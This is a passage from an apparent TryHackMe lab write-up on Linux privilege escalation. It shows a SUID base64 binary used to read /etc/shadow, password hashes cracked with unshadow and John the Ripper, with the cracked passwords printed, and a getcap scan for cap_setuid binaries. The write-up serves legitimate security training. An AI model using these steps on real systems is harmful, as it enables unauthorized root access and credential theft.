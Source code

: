 ```bash
LFILE=/home/ubuntu/flag3.txt
$ cd /usr/bin
$ ./base64 "$LFILE" | base64 --decode
THM-3847834

```

Change the LFILE variable to whatever file you wish to read.

```bash
LFILE=/etc/shadow
$ ./base64 "$LFILE" | base64 --decode

```

View both the `etc/shadow` and `etc/passwd`, then crack the user's password using the `unshadow` tool.

```bash
─$ unshadow passwd.txt shadow.txt > hash.txt
─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
─$ john --show hash.txt
gerryconway:test123:1001:1001::/home/gerryconway:/bin/sh
user2:Password1:1002:1002::/home/user2:/bin/sh
karen:Password1:1003:1003::/home/karen:/bin/sh

3 password hashes cracked, 0 left
```

## Privilege Escalation: Capabilities

**What Are Linux Capabilities?**: In traditional Unix systems, processes run as either:

- Root (full privileges)
- Non-root (limited privileges)

Linux capabilities break up the full set of root privileges into smaller, fine-grained privileges that can be independently assigned to processes or binaries. This allows a non-root process to perform certain actions usually reserved for root. **For example**:

- `CAP_NET_RAW`: Allows use of raw sockets.
- `CAP_SYS_ADMIN`: Very powerful, close to full root access.
- `CAP_SETUID`: Allows changing user IDs.
- Note: While this task does not require running the exploit to get the flag, I’ll demonstrate how to exploit binaries with set capabilities for educational purposes.

Use `getcap` tool to list enabled capabilities.

```bash
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)

```
